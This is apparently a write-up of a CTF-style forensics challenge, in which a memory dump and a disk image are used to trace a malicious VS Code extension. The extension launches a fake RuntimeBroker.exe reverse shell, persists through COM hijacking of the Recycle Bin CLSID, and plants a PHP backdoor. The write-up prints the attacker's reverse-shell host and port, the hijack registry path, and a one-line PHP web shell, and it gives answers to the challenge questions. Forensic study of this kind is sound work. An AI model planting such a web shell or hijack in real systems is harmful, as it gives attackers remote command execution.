




### Sherlock Scenario

We have discovered a serious security breach involving the unauthorized exposure of our source code. An employee has been identified as a potential suspect in this incident. However, the employee strongly denies any involvement or downloading of external programs. We seek your expertise in digital forensic investigation to perform a comprehensive analysis, determine the root cause of the leak, and help us resolve the situation effectively.

### Answers

In this task we've provided with memory dump and disk artifact.

#### Task 1

What is the application that starts the suspicious chain of processes?

To gain the answer we'll need to look into the process tree using volatility3 plugin windows.pstree:

```bash
vol -f ~/Desktop/CDSA/ReliableThreat/memdump.dmp windows.pstree
```

```text
*** 8108        3128    Code.exe        0x850cd13c3080  42      -       1       False   2024-07-23 02:28:58.000000 UTC  N/A     \Device\HarddiskVolume3\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe   "C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe"   C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe
**** 7904       8108    Code.exe        0x850cd27a3080  19      -       1       False   2024-07-23 02:29:03.000000 UTC  N/A     \Device\HarddiskVolume3\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe   "C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe" --type=utility --utility-sub-type=node.mojom.NodeService --lang=en-US --service-sandbox-type=none --user-data-dir="C:\Users\User2\AppData\Roaming\Code" --standard-schemes=vscode-webview,vscode-file --enable-sandbox --secure-schemes=vscode-webview,vscode-file --cors-schemes=vscode-webview,vscode-file --fetch-schemes=vscode-webview,vscode-file --service-worker-schemes=vscode-webview --code-cache-schemes=vscode-webview,vscode-file --mojo-platform-channel-handle=3508 --field-trial-handle=1692,i,16467833647474465927,11985723710901115035,262144 --enable-features=kWebSQLAccess --disable-features=CalculateNativeWinOcclusion,SpareRendererForSitePerProcess,WinDelaySpellcheckServiceInit,WinRetrieveSuggestionsOnlyOnDemand --variations-seed-version /prefetch:8    C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe
**** 4424       8108    Code.exe        0x850cd20fa080  20      -       1       False   2024-07-23 02:29:03.000000 UTC  N/A     \Device\HarddiskVolume3\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe   "C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe" --type=utility --utility-sub-type=node.mojom.NodeService --lang=en-US --service-sandbox-type=none --user-data-dir="C:\Users\User2\AppData\Roaming\Code" --standard-schemes=vscode-webview,vscode-file --enable-sandbox --secure-schemes=vscode-webview,vscode-file --cors-schemes=vscode-webview,vscode-file --fetch-schemes=vscode-webview,vscode-file --service-worker-schemes=vscode-webview --code-cache-schemes=vscode-webview,vscode-file --mojo-platform-channel-handle=3532 --field-trial-handle=1692,i,16467833647474465927,11985723710901115035,262144 --enable-features=kWebSQLAccess --disable-features=CalculateNativeWinOcclusion,SpareRendererForSitePerProcess,WinDelaySpellcheckServiceInit,WinRetrieveSuggestionsOnlyOnDemand --variations-seed-version /prefetch:8    C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe
**** 1612       8108    Code.exe        0x850cd21d5080  19      -       1       False   2024-07-23 02:29:03.000000 UTC  N/A     \Device\HarddiskVolume3\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe   "C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe" --type=utility --utility-sub-type=node.mojom.NodeService --lang=en-US --service-sandbox-type=none --dns-result-order=ipv4first --inspect-port=0 --user-data-dir="C:\Users\User2\AppData\Roaming\Code" --standard-schemes=vscode-webview,vscode-file --enable-sandbox --secure-schemes=vscode-webview,vscode-file --cors-schemes=vscode-webview,vscode-file --fetch-schemes=vscode-webview,vscode-file --service-worker-schemes=vscode-webview --code-cache-schemes=vscode-webview,vscode-file --mojo-platform-channel-handle=3464 --field-trial-handle=1692,i,16467833647474465927,11985723710901115035,262144 --enable-features=kWebSQLAccess --disable-features=CalculateNativeWinOcclusion,SpareRendererForSitePerProcess,WinDelaySpellcheckServiceInit,WinRetrieveSuggestionsOnlyOnDemand --variations-seed-version /prefetch:8      C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe
***** 2816      1612    Code.exe        0x850cd2811080  11      -       1       False   2024-07-23 02:29:06.000000 UTC  N/A     \Device\HarddiskVolume3\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe   "C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe" --max-old-space-size=3072 "c:\Users\User2\AppData\Local\Programs\Microsoft VS Code\resources\app\extensions\node_modules\typescript\lib\tsserver.js" --useInferredProjectPerProjectRoot --enableTelemetry --cancellationPipeName C:\Users\User2\AppData\Local\Temp\vscode-typescript\9d249217e63ce7e06175\tscancellation-a07770651154e5cb65a6.tmp* --globalPlugins @vsintellicode/typescript-intellicode-plugin,ms-vsintellicode-typescript --pluginProbeLocations c:\Users\User2\.vscode\extensions\visualstudioexptteam.vscodeintellicode-1.3.1,c:\Users\User2\.vscode\extensions\visualstudioexptteam.vscodeintellicode-1.3.1 --locale en --noGetErrOnBackgroundUpdate --canUseWatchEvents --validateDefaultNpmLocation --useNodeIpc  C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe
****** 7868     2816    Code.exe        0x850cd1ba6080  9       -       1       False   2024-07-23 02:29:07.000000 UTC  N/A     \Device\HarddiskVolume3\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe   "C:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe" "c:/Users/User2/AppData/Local/Programs/Microsoft VS Code/resources/app/extensions/node_modules/typescript/lib/typingsInstaller.js" --globalTypingsCacheLocation C:/Users/User2/AppData/Local/Microsoft/TypeScript/5.5 --enableTelemetry --typesMapLocation "c:/Users/User2/AppData/Local/Programs/Microsoft VS Code/resources/app/extensions/node_modules/typescript/lib/typesMap.json" --validateDefaultNpmLocationC:\Users\User2\AppData\Local\Programs\Microsoft VS Code\Code.exe
***** 4196      1612    cmd.exe 0x850cd1d83080  1       -       1       False   2024-07-23 02:32:35.000000 UTC  N/A     \Device\HarddiskVolume3\Windows\System32\cmd.exe        C:\Windows\system32\cmd.exe /d /s /c "C:\Users\Public\RuntimeBroker.exe
"       C:\Windows\system32\cmd.exe
```

If we focused we can see that PID 1612 VS Code extension launched a fake `RuntimeBroker.exe` from `C:\Users\Public`, which then opened a shell.

Answer: Code.exe

#### Task 2

Provide the full path of the malicious file used to gain initial access.

After long time of analyzing the memory dump, I haven't got anything clear, so I thought to search where I can find malicious VSCode File extensions?



So it should be in `C:\Users\User2\.vscode\extensions` 

```bash
vol -f ~/Desktop/CDSA/ReliableThreat/memdump.dmp windows.filescan > filescan.txt 
```

```bash
cat filescan.txt|grep '\\Users\\User2\\.vscode\\extensions'
```

one of the extensions looks suspicious: 0xs1rx58d3v.chatgpt-b0t-0.0.1

```bash
cat filescan.txt|grep '\\Users\\User2\\.vscode\\extensions' | grep '0xs1rx58d3v.chatgpt-b0t-0.0.1'
```

Answer: `C:\Users\User2\.vscode\extensions\0xs1rx58d3v.chatgpt-b0t-0.0.1\extension.js`

#### Task 3

What user input, when executed, will run the malicious code?

To solve this, I dumped our malicious file (extension.js):

```bash
vol -f ~/Desktop/CDSA/ReliableThreat/memdump.dmp -o out windows.dumpfiles --virtaddr 0x850cd2e704f0
```

Then by looking for the code, we can see clearly that the user input 'help' will lead to the malicious execution

Answer: help

#### Task 4

What are the hostname and port used to establish a reverse shell?

We can solve it simple by taking the obfuscated malicious part from extension.js and deobfuscate it using any tool, I used https://webcrack.netlify.app/





Answer: 6.tcp.eu.ngrok.io:16587

#### Task 5

What is the display name of the developer who created this malicious file?

We can get it by dumping package.json and looking for "publisherDisplayName" value:

```bash
vol -f ~/Desktop/CDSA/ReliableThreat/memdump.dmp -o out windows.dumpfiles --virtaddr 0x850cd16d92b0
```

Answer: 0xS1rx58.D3V

### Task 6

What time was the malicious file released? (UTC).

In the original scenario, you should look for it in the VisualStudio Marketplace, but unfortunately, the extension have been removed, so you can search for the answer

Answer: 2024-07-23 00:41:19

#### Task 7

Provide the SID for the user who has been compromised.

We already did filescan via volatility, the answer is there

Answer: S-1-5-21-1998887770-13753423-1649717590-1001

#### Task 8

Provide the full path of the suspicious executable being run during the infection chain.

We already have it from the pstree

Answer: C:\Users\Public\RuntimeBroker.exe

#### Task 9

The threat actor has modified the Windows registry to include a new entry. This change ensures that whenever a legitimate component runs, it triggers the malicious process, allowing the threat actor to maintain control of the system. Specify the name of the legitimate component.

The wording ("whenever a legitimate component runs, it triggers the malicious process") matches COM hijacking (MITRE T1546.015). The attacker registers a per-user `InProcServer32` entry for an existing COM class. Windows checks `HKCU` before `HKLM`, so whenever something loads that COM object, it loads the attacker's payload instead of the real one.

`filescan` output contains two per-user CLSID keys that stand out:

```text
0x850cd1c38870  \REGISTRY\USER\S-1-5-21-1998887770-13753423-1649717590-1001\Software\Classes\CLSID\{a0396a93-dc06-4aef-bee9-95ffccaef20e}\InProcServer32

0x850cd2e07960  \REGISTRY\USER\S-1-5-21-1998887770-13753423-1649717590-1001_Classes\CLSID\{4df0c730-df9d-4ae3-9153-aa6b82e9795a}\InProcServ
```

These are `InProcServer32` keys under User2's own hive, which is exactly where a COM hijack is written.

Lets try to Read what the keys point to:

```bash
vol -f ~/Desktop/CDSA/ReliableThreat/memdump.dmp windows.registry.printkey --key "Software\Classes\CLSID\{a0396a93-dc06-4aef-bee9-95ffccaef20e}\InProcServer32"

vol -f ~/Desktop/CDSA/ReliableThreat/memdump.dmp windows.registry.printkey --key "CLSID\{4df0c730-df9d-4ae3-9153-aa6b82e9795a}\InProcServer32"
```

That output tells something important: **both keys don't exist**. When `printkey` finds a key, it prints its values with a Last Write Time. Here every hive shows only the key path and dashes, which is Volatility's way of saying "not found in this hive".

Those two filescan entries were only **handles** from some process opening a CLSID path (a normal COM lookup that found nothing in HKCU). They aren't hijack entries. Worth remembering: a path appearing in `filescan` does not mean a key exists.

Instead of guessing key names, I searched the whole hives for any value that references the attacker's known files. I used the hive offsets from the previous output: User2 `ntuser.dat`, User2 `UsrClass.dat`, and `SOFTWARE`.

```bash
M=~/Desktop/CDSA/ReliableThreat/memdump.dmp
for off in 0xd902d0d51000 0xd902d0d55000 0xd902cce98000; do
  echo "=== $off"
  vol -f $M windows.registry.printkey --offset $off --recurse 2>/dev/null \
   | grep -i -E "Users\\\\Public|RuntimeBroker|temp\.exe|Run1|ngrok"
done > reg_hits.txt
```

Every hit was a legitimate Windows entry. They pointed to the real `C:\Windows\System32\RuntimeBroker.exe` (AppID/CLSID registrations and tracing keys), and most were timestamped before the attack. Nothing helpful.

Then I moved to the disk artifact, the disk image contains `C:\Users\Public\temp.exe`, the same staging folder as the fake `RuntimeBroker.exe`. If this binary installs the persistence, the registry path should be embedded in it. I checked it with static analysis only, without running it:

```bash
strings temp.exe| grep -i -E "HKEY|HKCU|HKLM|Software\\\\|CurrentVersion|Image File Execution|Debugger|SilentProcessExit|MonitorProcess|CLSID|InProcServer|LocalServer|shell\\\\open|Winlogon|Userinit|reg add|RegSetValue|RegCreateKey" | sort -u
```

And I found this in the output:

```text
SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell
```

So I searched for it:



Answer: Recycle bin

#### Task 10

Which MITRE technique corresponds to the previous action?

Answer: T1546.015

#### Task 11

The threat actor has identified the location for all projects and manipulated one of the project files. Could you provide details about the malicious code that was added by the threat actor?

By looking for the user desktop in the disk image, there is 5 projects, and the answer format shows that it is PHP, we can apply this filter:

```bash
grep -r --include="*.php" . | grep '\$' | grep '\='
```

In the laravel project there is a malicious command that takes the output and execute it in the system that running this website so this might be another backdoor added by the attacker to still have a way to get back into this system.

Answer: `$testc = $_GET['s1']; echo `$testc`;`

